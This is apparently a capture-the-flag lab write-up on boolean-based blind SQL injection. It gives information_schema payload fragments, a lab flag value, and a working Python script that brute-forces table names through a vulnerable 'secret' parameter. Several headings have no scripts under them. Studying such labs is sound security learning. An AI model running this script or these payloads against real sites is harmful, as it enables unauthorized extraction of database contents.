

---
---

# IML - SQL Injection – Boolean-Based Blind

[==https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet==](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)

# 




- Modify the \<vulnerable parameter\> in the script to secret
(script below)


[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

- Use the payloads on the github link above, to modify the script
(script below)


- Use the generic way of finding column names:
```bash
group_concat(column_name) from information_schema.columns where table_name="users"

```
and modify the script

(script below)


- Modify the script (script below) to find the flag
```bash
select secret from data

```


Change the range of the for j loop - to include more characters


**Flag is <u>74f87f</u> \<---- Ignore the Capital F's**

**<u>Blind SQLi DB name bruteforce script</u>**


**<u>Blind SQLi Table name bruteforce script</u>**


**<u>Blind SQLi Column name bruteforce script</u>**


**<u>Find the flag</u>**


**<u>Script:</u>**

```python
import requests
import sys

# Send the payload to the vulnerable parameter on the target host
# If "OK" is found on the webpage -> true response
def send_payload(ip, payload):
    r = requests.get("http://" + ip + "/dbstatus.php?secret=" + payload)
    if "OK" in r.text:
        return True
    else:
        return False

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "'%20OR%20LENGTH((select table_name from information_schema.tables where table_schema=database()))=%d" % i):
            length = i
            break

    db_name = ''
    for i in range(1, length + 1):
        for j in range(96, 123):  # a-z
            if send_payload(ip, "%20OR%20SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s" % (i, chr(j))):
                db_name += chr(j)
                break
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % (sys.argv[0]))
        sys.exit(1)

    ip = sys.argv[1]
    print(brute_db(ip))

if __name__ == "__main__":
    main()

```
